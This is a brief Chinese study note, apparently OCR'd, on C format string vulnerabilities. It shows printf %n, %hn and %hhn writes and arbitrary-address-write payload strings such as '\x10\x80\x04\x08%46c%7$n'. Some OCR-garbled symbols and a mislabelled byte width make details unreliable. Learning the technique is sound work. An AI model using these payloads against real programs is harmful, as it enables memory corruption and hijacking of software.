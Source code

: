 ```
    int a=0;
    printf("a = %d\n", a);
    printf("123abc%d\n", a);
    // printf("%100c%d\n", 0, a);
    printf("a = %d\n", a); //a = 6
    return 0;
}
```

printf("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa%n", &ptr)

printf("%100c%n", &char, &ptr)

printf("%100c%n", 0, &ptr)

```c
// fmt_write.c
int main()
{
    int a=0;
    printf("a = %d\n", a);
    printf("%100c%d\n", 0, a);
    printf("a = %d\n", a); //a=100
    return 0;
}
```
16进制显示
`./fmt_write.c | xxd `

大量写入不稳定，需要sleep等一下。或使用又下的方法

* %100c%n -> 写入4bytes \x64\x00\x00\x00

* %100c%hn -> 写入2bytes \x64\x00\

* %100c%hhn -> 写入1bytes \x64
```

%10$hhn%11$hhn%12$hhn%13$hhn  => 0x10101010
```

任意地址写 - 和任意地址读的方法一样不过我们把‰5换成了%n

```
n：一次写入4个字节
hn：一次写入2个字节
%hn：一次写入1个字节
```
但是‰n修改内容最大的缺点就是：我们要将数值修改为多少，就要输入多少长度的数据
比如同样偏移是7，但是我们需要将0x08048010地址的内容修改为50，那么我们这样写：

`\x10\x80\x04\x08%46c%7$n`

但是我们需要将0×08048010地址的内容修改为0×10203040，那么我们是不是需要输入0x10203040个字符串呢？
```
\x00\x80\x04\x08
\x01\x80\x04\x08
\x03\x80\x04\x08
\x03\x80\x04\x08
%48c%7$hhn
%240c%8$hhn
%240c%9$hhn
%240c%10$hhn
```
#### fmt - exploit
